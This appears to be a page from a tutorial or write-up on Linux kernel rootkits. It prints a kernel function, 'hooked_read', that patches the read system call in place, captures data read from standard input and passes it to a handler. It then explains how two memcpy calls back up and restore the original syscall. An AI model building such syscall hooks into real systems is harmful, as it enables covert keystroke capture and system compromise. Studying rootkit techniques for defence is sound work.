 \documentclass[10pt, letterpaper]{article}
\begin{document}
The following code does all this:

\begin{verbatim}
asmlinkage ssize_t hooked_read(unsigned int fd, char __user *buf, size_t count){
    void** sys_call_table = (void *) ptr_sys_call_table;
    ssize_t retval;
    OUR_TRY_MODULE_GET;
    printk(KERN_INFO "This is the hooked read!\n");
    _memcpy(sys_call_table[SYSCALL_NR], syscall_code, sizeof(syscall_code), 1);
    retval = ((asmlinkage ssize_t (*)(unsigned int, char __user*, size_t))
             sys_call_table[SYSCALL_NR])(fd, buf, count);
    if (retval > 0 && fd == 0){ // we read something from stdin
        handle_input(buf, retval);
    }
    _memcpy(sys_call_table[SYSCALL_NR], new_syscall_code, sizeof(syscall_code), 1);
    OUR_MODULE_PUT;
    return retval;
}
\end{verbatim}

Note the two occurences of \texttt{\_memcpy} that are responsible for backing up and restoring the original \texttt{read} system call.
\end{document}
